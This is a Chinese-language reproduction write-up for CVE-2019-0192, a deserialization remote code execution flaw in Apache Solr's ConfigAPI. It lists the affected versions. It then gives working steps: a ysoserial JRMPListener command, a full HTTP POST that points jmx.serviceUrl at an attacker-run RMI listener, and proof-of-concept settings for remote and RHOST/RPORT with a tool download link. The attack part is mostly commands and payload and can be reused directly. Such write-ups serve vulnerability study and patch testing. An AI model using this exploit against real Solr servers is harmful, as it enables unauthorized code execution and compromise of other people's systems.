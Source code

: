 （CVE-2019-0192）Apache Solr Deserialization 远程代码执行漏洞
=============================================================

一、漏洞简介
------------

Apache
Solr中的ConfigAPI允许设置一个jmx.serviceUrl，它将创建一个新的JMXConnectorServerFactory，并通过"绑定"操作触发对目标RMI/LDAP服务器的调用。恶意的RMI服务器可以响应任意的对象，这些对象将在Solr端使用java的ObjectInputStream反序列化，这被认为是不安全的。这种类型的漏洞可以利用ysoserial工具。根据目标类路径，攻击者可以使用其中一个"gadget
chain"来触发Solr端上的远程代码执行。

二、漏洞影响
------------

Apache Solr 5.0.0 to 5.5.5

Apache Solr 6.0.0 to 6.6.5

三、复现过程
------------

下载Apache Solr
5.5.3版本作为靶机（注意，一定要使用jre7u25以下jre），执行**solr -e
techproducts -Dcom.sun.management.jmxremote**指令开启服务。

使用ysoserial工具，执行*Java -cp ysoserial-0.0.6-SNAPSHOT-all.jar
ysoserial.exploit.JRMPListener 12363 Jdk7u21
\"calc\"**指令，监听**12363*\*\*端口。然后传入以下数据：

    POST /solr/techproducts/config HTTP/1.1

    Host: 0-sec.org:8983

    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0

    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

    Content-type:application/json

    Connection: close

    Upgrade-Insecure-Requests: 1

    Content-Length: 91

     

    {"set-property" : {"jmx.serviceUrl" : "service:jmx:rmi:///jndi/rmi://127.0.0.1:12363/obj"}}

### poc

下载[yoserial](http://wiki.0-sec.org/download/yoserial.zip),并将value修改为一下内容

    remote = "http://172.18.0.5:8983"
    ressource = ""
    RHOST = "172.18.0.1"
    RPORT = "1099"
